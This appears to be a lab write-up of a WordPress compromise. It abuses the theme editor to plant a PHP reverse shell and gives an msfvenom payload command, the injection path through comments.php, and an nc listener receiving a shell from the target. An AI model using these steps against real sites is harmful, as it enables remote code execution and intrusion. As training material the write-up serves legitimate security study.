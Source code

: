 #### WordPress template editor

This WordPress allows users to edit php files of the template

### Weaponisation

We should be able to insert a reverse shell through the theme editor

### Delivery

#### https://github.com/nisforrnicholas/WordPress-Theme-Editor-Exploit

![Reverse shell works](assets/2022-09-07_16-57.jpeg)

#### msfvenom

    msfvenom -p php/reverse_php LHOST=192.168.56.107 > payload.php

Modify so `<?php`

doesn't get commented with `/*` at the beginning and ends with `?>`

Then copy it in the `comments.php` file  
https://192.168.56.105/wp-admin/theme-editor.php?file=comments.php&theme=twentyfifteen&scrollto=0

Then call `http://192.168.56.105/wp-content/themes/twentyfifteen/comments.php`  
https://devowl.io/2020/wordpress-file-folder-structure-explained/

### Privilege Escalation

    ┌──(kali㉿kali)-[~]
    └─$ nc -lnvp 4444                                              
    listening on [any] 4444 ...
    connect to [192.168.56.107] from (UNKNOWN) [192.168.56.105] 34032
    uname -a
    Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
.
